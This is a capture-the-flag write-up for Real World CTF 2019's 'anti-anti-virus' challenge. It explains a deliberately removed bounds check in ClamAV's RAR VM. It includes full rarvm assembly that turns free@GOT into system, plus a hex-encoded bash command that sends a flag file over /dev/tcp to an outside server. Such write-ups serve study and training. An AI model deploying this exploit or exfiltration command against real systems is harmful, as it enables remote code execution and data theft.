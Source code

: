 ## Real World CTF 2019

This year's real world CTF was really awesome. It had several improvements from last year. (challenges had more directions and hints, crypto and reverse challenges introduced) I spent a lot of time on Fuchsia IPC reversing (`cai-dan-ti-1`) and peeking at recent PHP commit logs (`MoP`) but I coudldn't solve any of them, which is sad. I managed to solve only one challenge, `anti-anti-virus`. Here is my write-up.

Also, just in case you're curious the pwnables that came out were based on the following topics:<br>
**[1] cai-dan-ti (1,2)**: Reversing-Shellcoding-Pwning on Google Fuchsia<br>
**[2] Dezhou Instruments**: Pwning an iPhone application<br>
**[3] MoP**: exploiting a PHP memory corruption bug to bypass `base_dir` and `disable_function` to achieve full RCE.<br>
**[4] Across the Great Wall**: exploiting a userland proxy<br>
**[5] faX senDeR**: some userland pwanble related to XDR, I don't really know much<br>
**[6] accessible & appetizer**: Browser exploitation challenges<br>


## Analysis
We are given a lot of shared library files, two binaries (`clamscan` and `clamdscan`), a readme and a patch.diff file. The readme states that the two binaries were built on version commit ID `6c11e824a794770c469f3a46141d5ea7927b6ea6`, and applied the given patch.diff file. We can actually build clam ourselves, by doing 
```bash
git clone https://github.com/Cisco-Talos/clamav-devel
git reset --hard 6c11e824a794770c469f3a46141d5ea7927b6ea6
apply -s -p1 < ../patch.diff
```

ClamAV is an open source virus scanner. What we should do is to get full RCE when ClamAV is given a file to scan. At first I thought the challenge would be really hard, because the clamscan binary had all protections (PIE, NX, Full RELRO, FORTIFY) enabled and we need to get a reverse shell (the server does not show any output, and leaking the flag bit by bit via time-based approach is not possible due to PoW) without any interactions. It is hard to bypass ASLR in an interactionless-exploit unless the given primitive is really powerful. 

I took a look at the patch file, and spotted mainly two things.<br>
**[1]** Some structure members' size increased from 4 bytes to 8 bytes. Theoretically, this should not introduce any bugs, but I guess the intention was to make exploitation easier, since in 64bit userspace applications pointers are 8 bytes.<br>
**[2]** I spotted something that looks like a bounds check elimination. I guessed this is the root bug.<br>

All the patches were done on a file called rarvm.c. RAR is a file format for archiving data. How is VM (Virutal Machine) supposed to be related to it? At first I thought that it was a sandboxed executor for binaries inside the archived rar file. I started analyzing the source code but couldn't understand what rar vm really is. 

After getting some sleep, I google searched about RAR vm. It showed a very old [CVE](https://www.cvedetails.com/cve/CVE-2007-3725/) on ClamAV, which seemed kinda relevant. Also I spotted a [blogpost](http://blog.cmpxchg8b.com/2012/09/fun-with-constrained-programming.html) about rarVM. WTF? RAR has support for custom bytecode, and unrar'ing programs execute them? How surprising. 

I also found [this](https://github.com/taviso/rarvmtools) repository, which implemented a linker and assembler for rar files. I think it was super cool. I decided to use it when constructing my exploit.

Now, I get the point of the challenge: escape the implemented rar VM executor and get RCE

## Exploitation
The bounds check elimination in the patch is the following:
```
-		return ((unsigned int *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) & RARVM_MEMMASK]);
+		/* return ((unsigned int *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) & RARVM_MEMMASK]); */
+		return ((size_t *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) /*& RARVM_MEMMASK*/]);
```
Basically it is a piece of code that translates RAR VM memory addresses to real memory addresses. Originally. the RAR VM memory address was confined from range 0 ~ 0x3fffff. (RARVM_MEMMASK = 0x3fffff) However, the masking is eliminated, so we can access arbitrary addresses relative to `rarvm_data->mem`. With the help of a debugger, I found that mem points to an mmapped chunk address, so we can access all the libraries through it, since libraries are also loaded via mmap and have constant distances from mmapped chunks. My idea was to access the free@GOT of libunrar.so, read the lower 4 bytes, subtract an adequate value so that the 4 bytes are equal to the lower 4 bytes of system, and place those 4 bytes back at free@GOT.

Also, the `mem` pointer must be freed at some point, so I wrote code so that it places commands at the start of `mem`. The start of `mem` can be accessed by the VM address 0. I wrote a helper script, `encode_cmd.py` that generates an assembly code that does this. To prevent the commandline string from overwriting running code, I padded the start with a bunch of NOP sequences. Here is my full exploit.

```
#include <constants.rh>
#include <util.rh>
#include <math.rh>
#include <crctools.rh>

_start:
	; Install our message in the output buffer
	mov r3, #0x0
	add r3, #0x1622bff0 ; offset between unrar start and mmap chunk
	add r3, #0x20C018
	mov r4, [r3]
	sub r4, #296208
	mov [r3], r4 ; change free to system
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	
	mov [r3+#0], #0x6e69622f
	mov [r3+#4], #0x7361622f
	mov [r3+#8], #0x632d2068
	mov [r3+#12], #0x2f282220
	mov [r3+#16], #0x2f6e6962
	mov [r3+#20], #0x20746163
	mov [r3+#24], #0x616c662f
	mov [r3+#28], #0x202f2067
	mov [r3+#32], #0x31263e32
	mov [r3+#36], #0x203e2029
	mov [r3+#40], #0x7665642f
	mov [r3+#44], #0x7063742f
	mov [r3+#48], #0x322e312f
	mov [r3+#52], #0x352e3535
	mov [r3+#56], #0x33362e34
	mov [r3+#60], #0x3939392f
	mov [r3+#64], #0x2238
	call $_success
```

Now using rarvmtools, compile this assembly file (it feels weird to do `make paylaod.rar`!) and upload it. It sends the flag to my listening server.

